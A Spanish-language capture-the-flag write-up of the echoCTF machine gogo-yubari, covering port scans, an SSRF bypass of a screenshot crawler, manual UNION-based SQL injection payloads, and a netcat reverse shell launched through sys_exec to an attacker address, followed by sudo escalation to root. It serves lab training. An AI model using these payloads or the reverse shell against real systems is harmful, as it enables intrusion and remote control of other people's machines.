


---
tags:
  - Server Side Request Forgery (SSRF)
  - SQL Injection 
---


# Gogo Yubari <!-- omit from toc -->


Write-up de la máquina gogo-yubari de [echoCTF](https://echoCTF.red).


## Índice <!-- omit from toc -->


- [Introducción](#introducción)
  - [Estadísticas](#estadísticas)
- [Reconocimiento](#reconocimiento)
  - [Escaneo de host](#escaneo-de-host)
    - [Escaneo completo de puertos](#escaneo-completo-de-puertos)
    - [Escaneo específico](#escaneo-específico)
- [Enumeración](#enumeración)
  - [Servicios](#servicios)
    - [http - 8080](#http---8080)
- [Explotación](#explotación)
  - [SSRF](#ssrf)
  - [SQLi](#sqli)
- [Post Explotación](#post-explotación)
  - [Escalación de privilegios](#escalación-de-privilegios)
    - [mysql → root](#mysql--root)
- [Ubicación de banderas](#ubicación-de-banderas)
- [Notas adicionales](#notas-adicionales)
  - [Eventos `mysql`](#eventos-mysql)
- [Referencias](#referencias)


## Introducción


### Estadísticas


| Característica | Descripción |
|---|---|
| Nombre | [gogo-yubari](https://echoctf.red/target/14) |
| Dificultad | Expert |
| Banderas | 11 (7: other, 2: system, env, root) |
| Puntos | 6,600: (other: 1,600, system: 2,600, env: 900, root: 1,500) |
| Descripción/Pistas | Gogo Yubari the web scrapper, named after the famous assassin, scraps echocity-f.com for validation of usability rules by producing a screenshot of the site. |


## Reconocimiento


### Escaneo de host


#### Escaneo completo de puertos


```bash
└─$ sudo nmap -sS --min-rate 5000 -v -p- -open -n -Pn -oG nmap/all_ports_ss $TARGET
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-25 23:17 EST
Initiating SYN Stealth Scan at 23:17
Scanning 10.0.200.69 [65535 ports]
Discovered open port 8080/tcp on 10.0.200.69
Completed SYN Stealth Scan at 23:17, 17.74s elapsed (65535 total ports)
Nmap scan report for 10.0.200.69
Host is up (0.15s latency).
Not shown: 61724 closed tcp ports (reset), 3810 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
8080/tcp open  http-proxy

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 17.82 seconds
           Raw packets sent: 87925 (3.869MB) | Rcvd: 66137 (2.645MB)
```


#### Escaneo específico


```bash
└─$ nmap -sCV -p 8080 -oN nmap/targeted $TARGET
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-25 23:21 EST
Nmap scan report for 10.0.200.69
Host is up (0.15s latency).

PORT     STATE SERVICE    VERSION
8080/tcp open  http-proxy GoGo go v1.11.12
| fingerprint-strings:
|   GetRequest:
|     HTTP/1.0 200 OK
|     Server: GoGo go v1.11.12
|     Date: Thu, 26 Jan 2023 04:21:46 GMT
|     Content-Type: text/html; charset=utf-8
|     <!DOCTYPE html>
|     <html>
|     <head>
|     <title>Gogo Yubari URL Cralwer</title>
|     <style>
|     main {
|     font-family: monospace, monospace;
|     max-width: 38rem;
|     padding: 2rem;
|     margin: auto;
|     @media only screen and (max-device-width: 736px) {
|     main {
|     padding: 0rem;
|     ::selection {
|     background: #d3869b;
|     body {
|     background: #282828;
|     color: #ebdbb2;
|     background-color: #3c3836;
|     padding: 1em;
|     border: 0;
|     a:active, a:visited {
|     color: #b16286;
|_    background-color: #1d2021;
|_http-title: Gogo Yubari URL Cralwer
|_http-server-header: GoGo go v1.11.12
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.92%I=7%D=1/25%Time=63D1FFDA%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,B67,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20GoGo\x20go\x20v1\.11
SF:\.12\r\nDate:\x20Thu,\x2026\x20Jan\x202023\x2004:21:46\x20GMT\r\nConten
SF:t-Type:\x20text/html;\x20charset=utf-8\r\n\r\n<!DOCTYPE\x20html>\n<html
SF:>\n\x20\x20\x20\x20<head>\n\x20\x20\x20\x20\x20\x20\x20\x20<title>Gogo\
SF:x20Yubari\x20URL\x20Cralwer</title>\n\x20\x20\x20\x20\x20\x20\x20\x20<s
SF:tyle>\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20main\x20{\n\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20font-family:\x20monospace,\x20monosp
SF:ace;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20max-width:\x2038r
SF:em;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20padding:\x202rem;\
SF:n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20margin:\x20auto;\n\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20}\n\n\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20@media\x20only\x20screen\x20and\x20\(max-device-width:\x20736
SF:px\)\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20main\x20{\n\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20padding:\x200rem
SF:;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20}\n\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20}\n\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20::s
SF:election\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20backgrou
SF:nd:\x20#d3869b;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20}\n\n\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20body\x20{\n\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20background:\x20#282828;\n\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20color:\x20\x20\x20\x20\x20\x20#ebdbb2;\n\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20}\n\n\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20pre\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20backgroun
SF:d-color:\x20#3c3836;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20p
SF:adding:\x201em;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20border
SF::\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20}\n\n\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20a,\x20a:active,\x20a:visited\x20{\n\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20color:\x20#b16286;\n\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20background-color:\x20#1d2021;\n");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 105.59 seconds
```


## Enumeración


### Servicios


#### http - 8080


En la página principal se presenta una utilidad para realizar [web-scrapping](https://es.wikipedia.org/wiki/Web_scraping) mediante una URL la cuál se permite proporcionar.


A través del código fuente se expone un hostname interno (consola de administrador).


Después de enviar un formulario con la URL que puede ser enviada, se puede identificar que sólo acepta peticiones que puedan ser identificadas como internas dado que se genera una imagen en `/public/<ip>.png` en caso de que sea procesada correctamente, en caso contrario, la ruta de la imagen será `/fullscreenshot.png`.


## Explotación


### SSRF


Después de probar con numerosos payloads modificando valores de cabeceras de la petición (`Host`, `X-Forwarder-For`, etc.) se identificó que se logra hacer un bypass interno al sitio usando `https` en vez de `http` en la URL proveída. Por lo que al usar `https://localhost.echocity-f.com/` se genera una imagen correctamente con su respuesta.


Tanto con esa respuesta como al enviar nuevas rutas de prueba, se puede identificar que se está añadiendo un `/` a la ruta que se consulta, por lo que se puede buscar que no se interprete añadiendo un `#` al final como si se estuviera consultando un fragmento del sitio señalado. Ejemplo, en `https://book.hacktricks.xyz/welcome/readme#pentesting-methodology`, se está consultando el recurso readme y dentro de él se indica que se busca el fragmento `#pentesting-methodology` (véase [W3C - Hash URI](https://www.w3.org/wiki/HashURI) y [Jeni Tennison - Hash URIs](https://www.jenitennison.com/2011/03/06/hash-uris.html)).

Al visualizar que no se interpréta aparentemente, se buscó usar url encoding en el `#` para ver si resultaba en un cambio `https://localhost.echocity-f.com/%23`, permitiendo así visualizar la ruta interna y una bandera.


En este punto se intentó consultar ciertas rutas estándares que suelen ocupar en la plataforma, tales como `ETSCTF` o `ETSCTF.html`, identificando que con la segunda después de mandar la petición se creaba un elemento en la plataforma principal.


Y en el dashboard se puede visualizar un nuevo elemento.


En este punto se intentó identificar una vulnerabilidad de tipo SSTI para los templates `.ejs` dado el output obtenido al enviar la petición a `ETSCTF.html` sin obtener éxito alguno. Por lo que se buscaron otras rutas disponibles en la plataforma, identificando:

- `/add`.
- `/edit`.

En `/edit` al pasarle el id del elemento se pudieron visualizar sus valores. Ejemplo `https://localhost.echocity-f.com/edit?id=2`.



Después al probar con `'` después del id `https://localhost.echocity-f.com/edit?id=2'` se identificó una excepción de SQL dándo paso a la siguiente fase de explotación.


### SQLi


Al requerir de una validación visual de inyección dado el escenario se realizo manualmente todo el proceso de inyección, buscando en primera instancia identificar el número de columnas en la tabla, mediante:

```text
id=2' UNION SELECT 1,2,3,4,5-- -
```

Iterando de 1 a N hasta no obtener errores en la respuesta. Posteriormente, se buscó identificar cuál de las columnas permite desplegar cadenas de carácteres, identificando la segunda y tercera posición con (añadiendo un ordenamiento para ver el contenido en los inputs disponibles):

```text
id=2' UNION SELECT 1,'a','a',4,5 ORDER BY url ASC-- -
```



Podiendo visualizar la información se buscó identificar que usuario de base de datos estaba siendo usado para tratar de asumir con qué permisos se contaba. Usando:

```text
id=2' UNION SELECT 1,user(),'a',4,5 ORDER BY url ASC-- -
```


Al identificar al usuario `root` se buscó ejecutar directamente una reverse shell con:

```text
id=2' UNION SELECT 1,sys_exec('nc -e /bin/bash 10.10.0.50 1234'),'a',4,5-- -
```

Obteniendo así, acceso a la máquina.


## Post Explotación


### Escalación de privilegios


#### mysql &rarr; root


Al ejecutar `sudo -l` se puede visualizar que el usuario no tiene restricción alguna para ejecutar binarios con `sudo`, por lo que al ejecutar `sudo bash`, se obtiene acceso como `root`.


## Ubicación de banderas


1. (other: 100 pts x2) `/app/frontend/forms.html` x2.
2. (other: 100 pts) `/app/frontend/forms.go`.
3. (other: 100 pts) `/app/frontend/ETSCTF.html`.
4. (other: 400 pts) `/app/backend/views/etsctf.ejs`.
5. (other: 500 pts) mysql event (Revisar [eventos mysql](#eventos-mysql)).
6. (other: 300 pts) scrapper databases (visto desde la plataforma interna o dentro de la base de datos).
7. (system: 1300 pts) `/etc/passwd`.
8. (system: 1300 pts) `/etc/shadow`.
9. (env: 900 pts) `strings /proc/1/environ | grep ETSCTF_`.
10. (root: 1500 pts) `/root`


## Notas adicionales


### Eventos `mysql`


Después de realizar búsquedas recursivas en los directorios que ocupan la intrusión, encontré la bandera en el archivo que se interpreta como binario `/var/lib/mysql/event.MYD`. Al realizar el submit de la misma me encontré que el nombre hace alusión a los eventos de MySQL, al no conocerlos decídi buscar información al repecto y la manera de consultarlos correctamente a través del cliente `mysql`. Encontrando que estos pueden ser configurados a través del `Event Scheduler` para ejecutar consultas definidas por el usuario para completar una tarea (algo similar a los cron jobs en linux). Permitiendo consultar su nombre y su contenido con:

```bash
MariaDB [(none)]> use scrapper;
use scrapper;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [scrapper]> show events\G # Para consultar los eventos configurados.
show events\G
*************************** 1. row ***************************
                  Db: scrapper
                Name: ev_crawl_pending_queue
             Definer: root@localhost
           Time zone: SYSTEM
                Type: RECURRING
          Execute at: NULL
      Interval value: 30
      Interval field: SECOND
              Starts: 2019-11-14 17:32:37
                Ends: NULL
              Status: ENABLED
          Originator: 0
character_set_client: utf8mb4
collation_connection: utf8mb4_general_ci
  Database Collation: utf8mb4_general_ci
1 row in set (0.00 sec)

MariaDB [scrapper]> SHOW CREATE EVENT ev_crawl_pending_queue\G # Para ver el la configuración del evento seleccionado mediante su nombre.
SHOW CREATE EVENT ev_crawl_pending_queue\G
*************************** 1. row ***************************
               Event: ev_crawl_pending_queue
            sql_mode: NO_AUTO_CREATE_USER,NO_ENGINE_SUBSTITUTION
           time_zone: SYSTEM
        Create Event: CREATE DEFINER=`root`@`localhost` EVENT `ev_crawl_pending_queue` ON SCHEDULE EVERY 30 SECOND STARTS '2019-11-14 17:32:37' ON COMPLETION NOT PRESERVE ENABLE COMMENT 'Check for commands that have no output ETSCTF_3f2652090448df5042' DO BEGIN
  DECLARE pid,done INT;
  DECLARE _pcur CURSOR FOR SELECT id FROM queue;
  DECLARE CONTINUE HANDLER FOR NOT FOUND SET done = TRUE;
  OPEN _pcur;
  read_loop: LOOP
    FETCH _pcur INTO pid;
    IF done THEN
      LEAVE read_loop;
    END IF;
  IF @debug IS NOT NULL THEN
    SELECT pid;
  END IF;
  UPDATE crawlers SET output=sys_eval(CONCAT(command, ' "', url,'"')) WHERE id=pid;
  DELETE FROM queue WHERE id=pid;
  END LOOP;
  CLOSE _pcur;
END
character_set_client: utf8mb4
collation_connection: utf8mb4_general_ci
  Database Collation: utf8mb4_general_ci
1 row in set (0.00 sec)
```


## Referencias


- [Definición Web Scrapping](https://es.wikipedia.org/wiki/Web_scraping).
- [W3C - Hash URI](https://www.w3.org/wiki/HashURI).
- [Jeni Tennison - Hash URIs](https://www.jenitennison.com/2011/03/06/hash-uris.html).
- [MySQL Reference Manual - Using the Event Scheduler](https://dev.mysql.com/doc/refman/5.7/en/event-scheduler.html).
- [MySQL Reference Manual - SHOW EVENTS Statement](https://dev.mysql.com/doc/refman/5.7/en/show-events.html).
- [MySQL Reference Manual - SHOW CREATE EVENT Statement](https://dev.mysql.com/doc/refman/5.7/en/show-create-event.html).
